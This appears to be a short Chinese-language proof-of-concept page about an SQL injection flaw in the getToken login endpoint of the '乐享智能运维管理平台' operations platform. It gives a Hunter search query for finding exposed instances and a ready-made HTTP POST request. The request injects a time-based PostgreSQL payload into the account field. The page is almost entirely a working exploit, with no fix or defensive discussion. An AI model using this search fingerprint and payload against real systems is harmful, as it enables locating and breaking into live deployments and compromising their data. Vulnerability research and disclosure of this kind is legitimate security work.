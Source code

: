 # 乐享智能运维管理平台getToken存在SQL注入漏洞

乐享智能运维管理平台getToken存在SQL注入漏洞

## hunter

```yaml
title="乐享智能运维管理平台"
```

## poc

```java
POST /auth-ui/v1/api/user/token/getToken HTTP/1.1

account=admin');SELECT PG_SLEEP(5)--&password=6e0f9e14344c5406a0cf5a3b4dfb665f87f4a771a31f7edbb5c72874a32b2957
```

